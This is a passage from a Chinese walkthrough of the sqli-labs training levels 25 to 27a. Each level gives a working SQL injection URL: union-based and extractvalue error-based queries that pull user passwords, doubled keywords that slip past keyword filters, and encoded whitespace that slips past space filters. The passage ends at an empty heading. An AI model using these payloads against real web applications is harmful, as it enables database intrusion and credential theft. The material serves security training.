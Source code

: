 `http://127.0.0.1/sqli/less-25/?id=-1' union select 1,(select passwoorrd from users where id=2),3--+`

因为password中的or被过滤，所以需写为passwoorrd

报错注入使用extractvalue

`http://127.0.0.1/sqli/less-25/?id=1' || extractvalue(1,concat(0x25,(select passwoorrd from users where id=1)))--+`

***

**Less-25a**

这一关id为加引号，同Less-25

`http://127.0.0.1/sqli/less-25a/?id=-1 union select 1,(select passwoorrd from users where id=2),3--+`

***

**Less-26**

这一关为过滤空格与注释，而且前一关的and && or也被注释

用以下方式绕过：
|Hex|含义|
|----|-------|
|%09| TAB 键（水平）|
|%0a| 新建一行|
|%0c| 新的一页|
|%0d| return 功能|
|%0b| TAB 键（垂直）|
|%a0| 空格|


`http://127.0.0.1/sqli/less-26/?id=1'%0aunion%0aselect%0a1,database(),'3`

***

**Less-26a**

同上一关，闭合为('$id')

***

**Less-27**

这一关过滤了union和select加上前一关的字符

`http://127.0.0.1/sqli/less-27/?id=0'%0aununionion%0aseLect%0a1,(seLect%0apassword%0afrom%0ausers%0awhere%0aid=2),'3`

***

**Less-27a**
